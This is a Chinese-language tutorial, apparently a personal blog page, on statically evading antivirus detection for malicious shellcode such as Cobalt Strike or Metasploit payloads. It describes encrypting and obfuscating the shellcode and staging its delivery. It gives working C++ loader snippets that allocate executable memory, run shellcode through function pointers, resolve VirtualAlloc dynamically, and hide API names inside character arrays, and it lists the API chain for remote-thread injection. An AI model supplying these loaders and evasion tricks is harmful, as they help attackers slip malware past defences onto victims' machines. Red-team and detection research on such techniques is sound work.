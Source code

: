 ```yaml
---

layout: default

---
```




# 静态免杀

本文章还在不断完善中，如有错误或建议请不吝指教。

## 杀软查杀方式

其次在做免杀之前，我们必须得了解杀软具体是如何查杀我们的恶意软件的。了解了相应的查杀规则以及方式，我们才能更好的去针对性的绕过以及规避杀软的检测。杀软的大体查杀规则基本是基于文件哈希值（整体哈希/片段哈希等）、字符串特征、API检测、敏感行为检测等这些方面。对于静态检测主要目的是在于绕过对文件哈希字符串导入API等特诊来进行的。

## 针对性处理

个人认为静态免杀可以基于三个维度来做：

1. shellcode生成
2. shellcode传输
3. shellcode执行

### shellcode生成

我们可以针对每个维度来针对性的进行处理。首先就是shellcode的生成，现在流行的渗透框架CS、MSF以及一些知名远控生成的shellcode特征已经是被杀软盯得死死的了，如果不进行修改/加密/混淆等处理，基本就属于见光死，见面就得挨杀。

针对shellcode做处理有大体上有以下几种方式：

1. 直接修改shellcode字节码，加入无效指令/修改shellcode执行逻辑等来修改shellcode的特征码，这种方式属于超出我能力范围之外了，放弃。

2. 对shellcode进行加密混淆处理，常见的如XOR/base64/AES/DES等方式加密shellcode、按照一定规则插入无效字节、字符偏移表等。


### shellcode传输

其次shellcode的传输，也就是shellcode如何到达目标机器，比如直接在代码中硬编码后编译成单文件exe或者dll形式，通过网络协议获取远程shellcode、通过隐写术等方式写入其他文件等方式。相对来说通过网路协议传输或者额外文件中读取（也就是常说的分离免杀）会比单文件形式容易一点。因为上一步会对shellcode做相应的加密混淆等处理，这一步问题不大。

### shellcode执行

接下来就是shellcode的执行了，一般shellcode想要在内存中执行的话需要完成以下步骤：

1. 创建/获取一段可读写执行的内存空间
2. 将shellcode写入这块内存空间
3. 将程序执行的流程指向这块内存空间

shellcode的执行其实说白了也就是shellcode的加载器。最常见的加载器就是通过Windows API来执行：

```c++
VirtualAlloc  //创建一块内存空间并标记为可读写执行
MemeryCopy    //向创建的内存空间中写入自己的shellcode
CreateThread  //将程序执行的流程指向这块内存空间
```

以上3个API组合起来就可以执行我们的shellcode了。但是这几个API基本都是属于敏感API了，基本连defender都过不去了。但是以上3个API可以通过替换等效的其他API函数，比如VirtualAlloc 替换为HeapCreate/HeapAlloc，MemeryCopy替换为memcpy，CreateThread替换成指针等来组合使用：

```c++
//将createThread替换为指针方式执行
LPVOID Memory = VirtualAlloc(NULL, sizeof(shellcode),MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
memcpy(Memory, shellcode, sizeof(shellcode));
((void(*)())Memory)();
//将VirtualAlloc替换成HeapCreate/HeapAlloc
HANDLE HeapHandle = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, sizeof(Shellcode), sizeof(Shellcode));
char * BUFFER = (char*)HeapAlloc(HeapHandle, HEAP_ZERO_MEMORY, sizeof(Shellcode));
memcpy(BUFFER, Shellcode, sizeof(Shellcode));
(*(void(*)())BUFFER)();
//再比如远线程注入的方式
OpenProcess
VirtualAlloc
WriteProcessMemory
CreateRemoteThread
```

由于API基本已经被杀软监控的死死的了，还可以我们可以通过动态调用的方式来调用API执行

```c++
//LoadLibrary/GetProcAddress动态加载VirutalAlloc （其实其他API可以可以通过这种方式去调用）
HINSTANCE K32 = LoadLibrary(TEXT("kernel32.dll"));
MYPROC Allocate = (MYPROC)GetProcAddress(K32, "VirtualAlloc");
char* BUFFER = (char*)Allocate(NULL, sizeof(Shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
memcpy(BUFFER, Shellcode, sizeof(Shellcode));
(*(void(*)())BUFFER)();
//GetModuleHandle/GetProcAddress
MYPROC Allocate = (MYPROC)GetProcAddress(GetModuleHandle("kernel32.dll"), "VirtualAlloc");
char* BUFFER = (char*)Allocate(NULL, sizeof(Shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
memcpy(BUFFER, Shellcode, sizeof(Shellcode));
(*(void(*)())BUFFER)();
```

在上述的代码中，杀软还是可能会将 kernel32.dll VirualAlloc等字符串标记为恶意，我们可以通过字符串的一些小技巧来增加杀软的检测难度，比如：

```c++
//orignal
ntdll = LoadLibrary(TEXT("ntdll"))
//trick
wchar_t ntdll_str[] = {'n','t','d','l','l',0};
ntdll = LoadLibrary(ntdll_str)  
```

虽然通过以上API组合可以实现动态获取相应的API来执行shellcode，但是由于还是导入表中还是暴露了部分API。下面我们就可以通过动态获取相应dll的基址，来动态获取相应API的地址来调用相应的API，从而隐藏导入表中暴露的API：

```c++
//文章中不提供具体的代码，只提供具体思路，按照思路动动手一搜就行了
//代码可以参考《WindowsPE权威指南》的第11章动态加载技术，以及看雪上前辈们的无私贡献出来的代码。
```

以上代码通过动态获取dll基址来动态调用API函数，静态免杀效果不错，



## 参考链接

* [shellcode execution techniques](https://www.contextis.com/en/blog/a-beginners-guide-to-windows-shellcode-execution-techniques)
* [engineering-antivirus-evasion](https://blog.scrt.ch/2020/06/19/engineering-antivirus-evasion/)
* 《WindowsPE权威指南》第11章

[back](../)